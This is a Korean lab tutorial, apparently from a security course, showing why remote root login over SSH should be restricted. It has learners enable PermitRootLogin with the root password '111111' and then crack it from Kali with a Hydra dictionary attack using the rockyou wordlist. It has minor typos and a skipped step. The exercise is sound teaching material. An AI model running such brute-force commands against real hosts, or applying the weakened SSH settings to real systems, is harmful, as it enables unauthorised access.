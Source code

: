 ## root 계정 원격접속 제한

`rrot` 계정의 원격 접속을 허용하면 어떤 문제가 발생할 수 있는지 알아봅시다.

### 실습 1 : SSH를 통한 사전 대입 공격
1. [우분투] (필요시) 원격 접속을 위해 OpenSSH 서버 설치
```
cju@wooam:~$ sudo apt install openssh-server
```
2. [우분투] 
```
sudo vi /etc/ssh/sshd_config
```

3. [우분투] `#PermitRootLogin prohibit-password`를 `PermitRootLogin yes`로 변경 후 저장
```
PermitRootLogin prohibit-password
```

4. [우분투] OpenSSH 서버 재시작
```
sudo systemctl restart sshd
```

5. [우분투] `root` 계정 패스워드를 `111111`로 변경(`1`이 6개)
```
cju@wooam:~$ sudo passwd
```

6. [우분투] IP 주소 확인
```
cju@wooam:~$ ip a
```

7. [칼리] Hydra 도구를 사용한 사전 대입 공격
```
$ hydra -l root -P /usr/share/wordlists/rockyou.txt.gz ssh://192.168.XXX.xxx
```

8. [칼리] 패스워드가 보인다!
```
[22][ssh] host: 192.168.XXX.XXX   login: root   password: 111111
```

10. [칼리] (참고) 사전 파일 확인
```
$ vi /usr/share/wordlists/rockyou.txt.gz
```